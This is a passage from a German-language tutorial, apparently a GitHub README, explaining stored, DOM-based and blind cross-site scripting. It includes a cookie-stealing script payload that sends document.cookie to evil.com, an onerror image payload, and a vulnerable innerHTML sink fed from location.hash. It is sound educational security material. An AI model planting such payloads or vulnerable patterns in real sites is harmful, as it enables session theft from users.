 ```text
      |                    |---------------------->|
      |                    |                       |
4. Code wird vom Server    |                       |
   an das Opfer gesendet   |                       |
      |                    |                       |
5. Code wird im Browser    |                       |
   ausgeführt, Angreifer   |                       |
   klaut Cookies           |                       |
      |<-------------------------------------------|
```
- **Typisch:** Kommentare, Foren, Profilfelder.

- **Beispiel:**
```html
<!-- Ein Benutzer speichert im Kommentar: -->
<script>fetch('[http://evil.com?cookie=](http://evil.com?cookie=)' + document.cookie)</script>
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 3. DOM-based XSS
DOM-based XSS ist die gefährlichste Form, da der Angriff rein im Browser des Opfers stattfindet. Der Server ist nicht beteiligt, da die Schwachstelle im clientseitigen JavaScript-Code liegt. Der Angreifer manipuliert das **Document Object Model** (**DOM**), um den schädlichen Code auszuführen.

- **Typisch:** Client-seitige Formulare, die URL-Fragmente (`#`) oder andere Quellen nutzen, um Inhalte dynamisch in die Seite zu laden.

- **Beispiel:**
```javascript
// gefährlich:
document.body.innerHTML = location.hash;
// Beispiel-URL: http://site.com/#<img src=x onerror=alert(1)>
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### 4. Blind XSS (verborgen)

Blind XSS ist eine Variante des Stored XSS, bei der die Auswirkungen des Angriffs nicht sofort sichtbar sind. Der schädliche Code wird an einer Stelle eingeschleust, die nicht öffentlich sichtbar ist, sondern nur von einem Administrator oder einem internen Mitarbeiter der Anwendung angesehen wird (z. B. in einem Backend-Panel).

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>
